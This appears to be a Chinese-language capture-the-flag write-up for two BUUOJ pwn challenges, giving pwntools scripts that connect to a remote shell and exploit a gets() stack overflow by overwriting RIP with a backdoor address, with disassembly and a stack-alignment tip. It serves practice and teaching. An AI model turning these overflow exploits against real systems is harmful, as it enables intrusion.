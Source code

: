## 0x00 test_your_nc
### ans
测试nc  
nc上直接可以得到shell
### exp
```python
from pwn import *
context.log_level = "debug"
io = remote('node3.buuoj.cn','26984')
io.interactive()
```

# 0x01 rip
### ans ret2text  
gets()函数的简单栈溢出，没有任何保护。  
选择栈溢出覆盖 $rip 为后门函数地址。
### tips
输入地址要使用 p32() ， p64() 函数打包  

远程测试报错
 - timeout: the monitored command dumped core    

由于栈对齐的原因，本次选择修改后门函数的地址 0x401186 --> 0x40118A 。  
不使用后门函数的开始地址，直接使用 system 函数前的地址。

```c++
.text:0000000000401186                 public fun             // 不用这里
.text:0000000000401186 fun             proc near
.text:0000000000401186 ; __unwind {
.text:0000000000401186                 push    rbp
.text:0000000000401187                 mov     rbp, rsp
.text:000000000040118A                 lea     rdi, command    ; "/bin/sh"  //用这里
.text:0000000000401191                 call    _system
.text:0000000000401196                 nop
.text:0000000000401197                 pop     rbp
.text:0000000000401198                 retn
.text:0000000000401198 ; } // starts at 401186
```

### exp
```python
from pwn import *
context.log_level = "debug"

# shell = 0x401186
shell = 0x40118A

# io = process('./rip')
io = remote('node3.buuoj.cn','29905')

payload = (0xf + 8) * 'a' + p64(shell)
# io.recv()
io.sendline(payload)
# io.sendlineafter("please input",payload)

io.interactive()
```

